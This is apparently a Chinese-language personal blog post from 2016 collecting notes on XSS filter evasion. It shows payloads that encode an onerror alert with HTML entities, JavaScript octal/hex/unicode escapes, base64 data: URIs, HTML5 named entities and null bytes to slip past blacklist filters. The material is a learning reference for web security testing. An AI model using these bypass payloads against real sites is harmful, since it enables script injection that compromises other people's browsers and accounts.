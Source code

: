 ```yaml
---
title: XSS学习笔记1
time: 2016.02.01 17:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结，包括实体编码，js编码，base64编码，和一些绕过黑名单检测的方法，最后还有一个fuzzing的福利^_^
    
---
```

### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
	以下两个表示相同：

		<img src="http://www.example.com"> 
		<img src="ht&#x74;p&#x3a;//www.example.com">
	下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

		<img src&#x3d;"http://www.example.com"> 
		<img s&#x72;c="http://www.example.com">
		
- HTML实体编码有两种，10进制与16进制

	
	{% highlight HTML %}
	如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
	{% endhighlight %} 

- 比如有一个输出点：

		<img src="[代码]"> 
	且过滤了script < > / \ http: 以及各种危险字符。
	
	那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
	构造代码：
		
		<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
	原代码：
		
		<img src="x" onerror="alert(1)">
	这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

	之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器一般是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：
	
		',alert(1)' ＝＝＝》
		html16进制编码 &#x27,alert(1)+&#x27
		＝》》url编码%26%23x27,alert(1)%2b%26%23x27
	说明：url编码用于绕过&＃的过滤

---
###  黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
	{% highlight html %}
	&colon; => [冒号]
	&NewLine; => [换行]
	case: <a href="javasc&NewLine;ript&colon;alert(1)">click</a>
	{% endhighlight %}

2. Hex编码常规变异(增添多个0)
	
		对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
		
		对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）

		对于<可编码为&#x3c
		

---
### Javascript编码
js能识别的编码有：Jsunicode js8进制 js16进制

JS的注入点一般分为两种情况：

1. 输入的值存入某个变量，然后经过一系列变换最后出现在某个能把字符串当做JS代码来执行的函数里。该函数一般为：eval（），setTimeout（），setInterval（）...
2. 还有一种情况就是在一个搜索框内

	比如：
	
		var search = "可控点";
		document.getElementById().innerHTML=search;

对于上述情况，大多数程序都会过滤<> ' " & %等特殊字符

此时，我们就要尝试用js8进制和10进制进行绕过。

对于原代码为：

	<img src=x onerror=alert('xss')>

js八进制编码：
		
		\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\47\170\163\163\47\51\76
js16进制编码：

	\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x78\x73\x73\x29\x3e
 
JSunicode编码： 

	\u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0078\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003e
	
测试以后，都能跳出这个界面：

![image](http://momomoxiaoxi.com/img/post/XSS/2.png)

注：在XSS中，字符数的长短也是一个很重要的问题！越短越好！
在asp的站中插XSS代码的时候，（存储型XSS），经常会因为插入的代码太长，导致数据库字段的长度不够，最终存不进去，报错的情况。所以，XSS的代码越短越好。

---
### base64编码
base64一般用于下列情况
	
	<a href="可控点">
	<iframe src="可控点">
	
如果这种情况下，程序过滤了<> ' " javascript的话，XSS可尝试利用base64编码
	
	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

用chrome测试：
![image](http://momomoxiaoxi.com/img/post/XSS/3.png)

![image](http://momomoxiaoxi.com/img/post/XSS/4.png)

上图，当点击test是，浏览器就会以data协议对text/html进行解析，编码为base64，最终解析为
	
	<img src=x onerror=alert(1)>
然后成功弹窗。

--- 
### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


### 	Fuzzing
![image](http://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
